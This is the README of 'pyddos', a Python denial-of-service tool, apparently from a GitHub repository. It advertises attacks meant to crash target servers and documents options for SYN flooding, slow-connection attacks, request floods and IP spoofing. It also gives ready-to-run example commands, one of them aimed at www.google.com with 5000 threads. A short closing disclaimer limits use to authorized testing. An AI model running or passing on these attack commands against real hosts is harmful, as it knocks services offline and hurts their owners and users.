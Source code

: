 # Pyddos

pyddos is a Python-based DDoS (Distributed Denial of Service) tool created by ghosthets and the Citadel ♈ group. This tool is designed to launch powerful and potentially harmful DDoS attacks against chosen targets, overloading their servers with an overwhelming amount of traffic and ultimately causing them to crash or become unresponsive.

# Requires module
* termcolor
* colorama
* good internet network
* device should be connected internet
* No hardware connection 

# Usage
                               
        DDos python script | Script used for testing ddos | Ddos attack     
         Author: ghosthets and citadel ♈                                              
         Github: http://github.com/ghosthets/pyddos                             
        Version:3.0 

    usage: python3 pyddos.py -t [target] -p [port] -t [number threads]

    optional arguments:
    -h, --help       show this help message and exit
    -v, --version    show program's version number and exit

    options:

    -d <ip|domain>   Specify your target such an ip or domain name
    -t <float>       Set timeout for socket
    -T <int>         Set threads number for connection (default = 1000)
    -p <int>         Specify port target (default = 80) |Only required with pyslow attack|
    -s <int>         Set sleep time for reconnection
    -i <ip address>  Specify spoofed ip unless use fake ip
    -Request         Enable request target
    -Synflood        Enable synflood attack
    -Pyslow          Enable pyslow attack
    --fakeip         Option to create fake ip if not specify spoofed ip

    Example:
        python3 pyddos.py -d www.example.com -p 80 -T 2000 -Pyslow
        python3 pyddos.py -d www.domain.com -s 100 -Request
        python3 pyddos.py -d www.google.com -Synflood -T 5000 -t 10.0
        


# note

Using PyDDOS or any other DDoS tool for malicious purposes is illegal and unethical. This tool should only be used for legitimate security testing purposes and under the authorization of the target system's owner.
